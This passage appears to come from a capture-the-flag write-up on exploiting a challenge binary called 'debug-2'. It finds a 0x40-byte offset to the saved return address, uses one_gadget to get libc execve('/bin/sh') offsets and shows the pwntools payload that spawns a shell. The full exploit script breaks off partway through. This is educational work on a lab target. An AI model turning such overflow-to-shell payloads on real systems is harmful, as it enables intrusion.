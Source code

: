 From this, we found that the offset to the saved RIP is 0x40.

For the final payload, since we can jump anywhere in libc, we have two main options. We can construct our ROP chain using gadgets from libc, or we can use another tool called `one_gadget` that outputs offsets relative to the base of libc along with their conditions. If these conditions are met when we jump to a specific address in libc, it will spawn a shell for us.

By writing this command:
```bash
one_gadget libc.so.6
```

We get the following output:
```bash
0x4497f execve("/bin/sh", rsp+0x30, environ)
constraints:
  address rsp+0x40 is writable
  rax == NULL || {rax, "-c", r12, NULL} is a valid argv

0x449d3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xe5306 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL || {[rsp+0x60], [rsp+0x68], [rsp+0x70], [rsp+0x78], ...} is a valid argv
```

`Quick tip`: As icemonster, a friend of mine, once said, you will lose less time by simply trying to jump to those addresses rather than checking if each condition is met. If none of them work initially, then you can try to see if you can satisfy the remaining conditions before jumping there.

**Last touch**

At our last offset of One_gadget, we got the shell we planned, which left us with the following payload:
```python

    finalPayload = b"K"*0x40
    finalPayload += p64(libc.address + 0xe5306) # this overwrites the return of read so no mangle is needed
    r.sendlineafter(b" characters", finalPayload)
```


## Exploit Code

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("debug-2_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-2.28.so")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            b *menu
            # b *main
            b *menu+212
            b *modify+41
            c
```